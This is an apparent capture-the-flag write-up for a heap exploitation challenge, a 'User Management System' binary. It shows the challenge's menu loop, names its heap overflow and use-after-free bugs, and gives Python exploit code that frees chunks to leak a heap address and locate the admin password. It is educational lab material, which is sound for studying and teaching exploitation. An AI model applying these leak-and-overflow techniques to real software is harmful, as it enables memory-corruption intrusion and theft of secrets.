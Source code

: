 ```cpp=
    setvbuf(stdout, NULL, _IONBF, 0);

    printf("**** User Management System ****\n");
    add_admin();

    while (power)
    {
        power--;
        printf("1. add_user\n"
               "2. edit_data\n"
               "3. del_user\n"
               "4. show_users\n"
               "5. bye\n"
               "> ");
        read(0, opt, 2);

        switch (opt[0]) {
        case '1': add_user(); break;
        case '2': edit_data(); break;
        case '3': del_user(); break;
        case '4': show_users(); break;
        case '5': exit(0);
        }
    }
    printf("No... no power..., b..ye...\n");
    
    return 0;
}
```
:::

### Something wrong
* Heap overflow
* Used after free(UAF)
* Note that, flag 1 is admin password, flag 2 is at `/home/chal/`


## Exploit

### Hard solution - leak heap base address + heap overflow
If we can use heap overflow to overlap the `user k`'s `*data`, then we can let it point to admin's password and use `show_users()` to print it out
1. leak admin password address
It's very straight forward, if we delete two user, user 2 first and then user 1, at the same time, the `fd` of user 1 will point to the data of user 2. Then we can use `show_user()` to leak the address and try to find `admin_pass_addr` by minus offset
    ```python!
    edit_data(0, 0x8, b'a')    # Must add this line to use heap overflow
    add_user(1, b'a'*8, b'aaaa')
    edit_data(1, 0x20, b'a')
    add_user(2, b'b'*8, b'bbbb')
    del_user(2)
    del_user(1)
    show_user()
    r.recvuntil(b'[1] ')
    r.recvuntil(b'data: ')
    admin_pass_addr = u64(r.recv(6).ljust(8, b'\x00')) - 0xa0
    print(hex(admin_pass_addr))
    ```
    ![](https://imgur.com/ZicILFr.png)
